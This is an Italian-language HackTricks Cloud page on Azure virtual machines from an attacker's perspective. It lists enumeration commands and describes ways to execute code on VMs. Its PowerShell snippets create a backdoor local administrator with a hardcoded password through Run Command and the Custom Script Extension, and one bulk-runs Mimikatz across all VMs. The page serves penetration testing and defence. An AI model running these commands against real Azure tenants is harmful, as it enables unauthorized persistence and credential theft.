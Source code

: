 # Az - Macchine Virtuali e Rete

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Informazioni di base

[Dal documento:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Le macchine virtuali Azure sono uno dei diversi tipi di [risorse di calcolo scalabili on-demand](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) che Azure offre. Tipicamente, scegli una macchina virtuale quando hai bisogno di maggiore controllo sull'ambiente di calcolo rispetto ad altre opzioni. Questo articolo ti fornisce informazioni su cosa considerare prima di creare una macchina virtuale, come crearla e come gestirla.

## Informazioni sulla Rete Azure

Le reti Azure contengono **diverse entità e modi per configurarla.** Puoi trovare una breve **descrizione,** **esempi** e **comandi di enumerazione** delle diverse entità di rete Azure in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre una soluzione sicura, completamente gestita per l'accesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) tramite SSL attraverso il portale Azure. È integrato all'interno di una Rete Virtuale Azure, consentendo la connettività RDP e SSH alle VM utilizzando IP privati, evitando la necessità di IP pubblici. Questo lo rende un'alternativa più sicura e conveniente ai metodi tradizionali che coinvolgono assegnazioni di IP pubblici e configurazioni di regole NSG per l'accesso alle VM. Sviluppatori e personale IT possono accedere in modo sicuro alle VM dal portale Azure utilizzando i loro browser web, semplificando il processo per ambienti di sviluppo e test.

Per elencare tutti gli Azure Bastion Hosts nel tuo abbonamento, puoi utilizzare il seguente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumerazione delle VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Esegui comandi in una VM**

### **Accesso AAD in VM**

È possibile consentire l'accesso agli utenti autenticati tramite AzureAD. Ad esempio, tentando di accedere a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (è importante **utilizzare l'email** con l'azurecorp utilizzato durante il tentativo di accesso) potresti ricevere un errore come: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguire queste istruzioni** andando su [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando il codice, utilizzare l'email e la password come credenziali e sarai in grado di connetterti tramite SSH (se quell'utente ha abbastanza permessi per farlo: ruolo `Virtual Machine Administrator Login` o `Virtual Machine User Login`).

### **Esegui Comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Esegui Estensione Script Personalizzato**

Le estensioni delle macchine virtuali (VM) di Azure sono **piccole applicazioni** che forniscono configurazione post-deployment e **compiti** di automazione su **VM di Azure**. Ad esempio, se una macchina virtuale richiede l'installazione di software, protezione antivirus o la possibilità di eseguire uno script al suo interno, puoi utilizzare un'estensione VM.

Pertanto, se hai accesso per scriverlo, puoi eseguire codice arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) è uno strumento PowerShell simile ad Ansible, utilizzato per configurare un host tramite codice. DSC si integra con Azure, consentendo il caricamento di file di configurazione specifici. Questi file devono aderire a una sintassi rigorosa. In particolare, l'estensione DSC in Azure può eseguire comandi da file che soddisfano determinati criteri di formattazione, anche se la sintassi non è corretta secondo gli standard DSC, come mostrato nella figura fornita.

L'esecuzione di questi comandi è facilitata dalla funzione [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) in Az PowerShell. I requisiti includono un file **.PS1** con una funzione definita e il file deve essere compresso in un file **.zip**. Anche se la sintassi potrebbe non essere accurata per DSC, il codice verrà comunque eseguito. Tuttavia, l'estensione segnerà lo stato di esecuzione come "errore" e nessun output del comando sarà visibile a causa dello stato sovrascritto dal messaggio di errore.

### VM Application Definitions

Le definizioni delle applicazioni VM consentono il deployment ripetibile di applicazioni versionate su una VM Azure. Questa risorsa supporta il deployment e l'aggiornamento delle applicazioni su più VM. Per configurarlo, sono necessari diversi passaggi, che coinvolgono comandi come **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** in Az PowerShell.

L'esecuzione di applicazioni o comandi tramite questo metodo coinvolge l'**"VMAppExtension"**, che viene installata automaticamente quando un'applicazione viene applicata a una VM. L'estensione recupera il file dall'URI specificato e lo nomina esattamente come l'applicazione, senza un'estensione. Per eseguire correttamente il file, il campo "ManageActions" nella chiamata API REST deve essere configurato per rinominare il file con l'estensione appropriata. La configurazione di questo metodo, una volta completata, assomiglierà alla struttura mostrata nella figura fornita.

Tuttavia, questo metodo di esecuzione è relativamente lento, impiegando circa 3-4 minuti per eseguire un'applicazione o un comando. I file relativi a questo processo sono memorizzati in directory specifiche (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` per la copia dell'applicazione e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` per lo stato di esecuzione).

Entrambe le tecniche forniscono modi unici per eseguire comandi e distribuire applicazioni negli ambienti Azure, ognuna con il proprio insieme di requisiti, passaggi e considerazioni.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sono una funzionalità in Azure che consente l'esecuzione di Runbook, configurati in un'Automation Account, su una Macchina Virtuale (VM) Azure che fa parte del HWG designato. Questa esecuzione è facilitata tramite un'estensione installata sulla VM, che distribuisce il codice del Runbook sulla VM. Un aspetto significativo di questo processo è che le credenziali effettive non sono un fattore nell'esecuzione poiché il codice viene eseguito con privilegi elevati, specificamente come **SYSTEM** o root, come illustrato nella figura fornita.

Un dettaglio cruciale per coloro che utilizzano VM Windows 10 è la necessità di specificare la versione di PowerShell per il Runbook. Dovrebbe essere impostata per essere eseguita come PowerShell Version 5.1 invece di 7.1. Questo requisito deriva dal fatto che PowerShell 7.1 non è installato per impostazione predefinita su queste VM, portando a un errore nell'esecuzione dello script se viene specificata la versione 7.1.

Questa funzionalità di Azure offre un metodo robusto per automatizzare e gestire attività in ambienti ibridi, consentendo una gestione centralizzata e l'esecuzione di attività su VM Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
